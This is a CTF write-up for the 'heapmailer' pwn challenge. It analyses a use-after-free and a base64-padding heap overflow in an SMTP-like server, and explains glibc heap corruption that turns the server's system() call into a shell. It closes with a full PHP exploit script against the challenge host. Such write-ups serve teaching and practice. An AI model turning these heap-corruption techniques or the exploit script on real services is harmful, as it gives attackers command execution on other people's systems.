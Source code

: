 # heapmailer - BalCCon2k20 CTF (pwn, 497p, 1 solved)
## Introduction

heapmailer is a pwn task.

An archive containing a Linux binary and a libc is provided.

The binary is a C++ binary emulating an SMTP server.

## Reverse engineering

The binary uses a custom linked list structure :
```c
struct list {
	struct list *next;
	size_t size;
	char   data[0];
};
```

It uses this structure to store mostly strings. The size is `0x10 + size`. It
can also store other kind of data, such as pointers.

There are 2 linked lists recipients and data chunk.

The server handles 5 different commands :
- `HELP` prints the help
- `FROM` changes the user's identity
- `RCPT` push a new structure on the recipient list
- `RCRM` removes a structure from the recipient list
- `CHNK` decodes a base64 string and pushes its content to the chunk list
- `POPC` removes the last entry from the chunk list
- `SEND` calls `system(command)`, with `command` being loaded at start

The `FROM` command has a use-after-free vulnerability : when the user first sets
its identity, and then changes it without specifying a name, the program will
free its current identity without clearing the pointer.
```cpp
cout << "New identity: ";
inputSize = readInput(input);

/* Free current identity */
if(user->next != nullptr)
	delElt(user->next);

/* Executed only if there is a name ! */
if(input[0] != 0) {
	struct list *list;

	/* Create a new element that contains the user's input */
	list = newElt(inputSize);
	copyString(input, input + inputSize, &list->data);

	user->next = list;
}
```

The `CHNK` command does not handle properly base64 without padding.
```cpp
struct list *list;

cout << "Base64-encoded data: ";
inputSize = readInput(input);

list = newElt(((inputSize - 1) / 4) * 3);
/* [...] */
chunks = list;
b64decode(input, &list->data);
```

The problem is that the division operator returns the quotient of the Euclidean
division. For example : in `inputSize` contains 99 A and a new line, the result
of the operation will be :
```
x = (100 - 1) / 4 * 3
x = 99 / 4 * 3
x = 24 * 3
x = 96 == 0x60
```

Decoding this payload will overwrite 2 bytes of the next chunk.

The `SEND` command calls `system` on a string that gets read from a file.
The content of this file is stored on the heap.


## Exploitation

It is obvious that the expected solution here is to overwrite the command buffer
and hijack the call to `system` with a different payload.

The heap layout looks something like this :
```
0x000000: tcache (0x250)
0x000250: ? big (0x11c10)
0x011e60: command pointer (0x20)
0x011e80: ? 0x230
0x0120b0: ? 0x20
0x0120d0: std::cout buffer (0x410)
0x0124e0: free (0x1be0)
0x0140c0: free (was: command buffer) (0x30)
0x0140f0: command content (0x40)
```

The idea is to split the free buffer at `0x124e0` in two. By using the base64
vulnerability, it is possible to overwrite the next chunk's size to a size
larger than its actual size.

This oversized free chunk can then be used to create a new chunk that will spray
`/bin/sh\0` all over the command buffer.

The only requirement is to create a fake chunk before corrupting the size to
fool glibc's security checks :

```
0x0124e0: free
...
0x0140F0: command
...
0x016000: 0x0000000000001C70 0x0000000000000020
0x016010: 0x0000000000001C70 0x0000000000000020
0x016020: 0x0000000000001C70 0x0000000000000020
0x016030: 0x0000000000001C70 0x0000000000000020
0x016040: 0x0000000000001C70 0x0000000000000020
0x016050: 0x0000000000001C70 0x0000000000000020
0x016060: 0x0000000000001C70 0x0000000000000020
0x016070: 0x0000000000001C70 0x0000000000000020
...
```

`0x20` is the smallest size a chunk can have. Its `PREV_INUSE` bit is not set.
`0x1C70` is the `prev_size` which has to match the corrupted chunk's size.

Once the command has been overwritten, a simple use of the `SEND` command
launches the payload.

Now, an attentive reader might ask :
> But what about that use-after-free explained before ?

which is a very good question.


**Flag**: `BCTF{sorry_that_mail_is_not_gonna_arrive}`

## Appendices
### pwn.php

```php
#!/usr/bin/php
<?php // vim: filetype=php
require_once "/mnt/ctf/tools/pwn/phplib/tubes/Socket.php";

const HOST = "pwn.institute";
const PORT = 13201;
const SIZE = 0x1C70;

function chnk(Tube $t, $data)
{
	$t->expect("Anonymous ~> ");
	$t->write("CHNK\n");

	$t->expect("Base64-encoded data: ");
	$t->write("$data\n");
}

printf("[*] Creating process\n");
$time = microtime(true);

$t = new Socket(HOST, PORT);

$t->expectLine("------------------------------------------------------------");
$t->expectLine("| H.E.A.P. Mailer v1 - Highly Efficient Arbitrary Protocol |");
$t->expectLine("------------------------------------------------------------");
$t->expectLine("");
$t->expectLine("  Enter HELP to display a list of commands.");
$t->expectLine("");

printf("[+] Done in %f seconds\n", microtime(true) - $time);
printf("\n");


printf("[+] Spray next chunk\n");
$payload = str_repeat(pack("Q*", SIZE, 0x20), 0x800); 
$payload = base64_encode($payload);
chnk($t, $payload);

printf("[+] Corrupt size\n");
$payload = str_repeat("\x00", 0x48) . pack("v", SIZE | 1);
$payload = rtrim(base64_encode($payload), "=");
chnk($t, $payload);

printf("[+] Overwrite stuff\n");
$payload = str_pad("/bin/sh", 8, "\x00");
$payload = str_repeat($payload, (SIZE - 0x10 - 0x08) / 8);
$payload = rtrim(base64_encode($payload), "=");
chnk($t, $payload);


/* Get shell */
$t->expect("Anonymous ~> ");
$t->write("SEND\n");

printf("[!] shell\n");
$t->pipe();
```
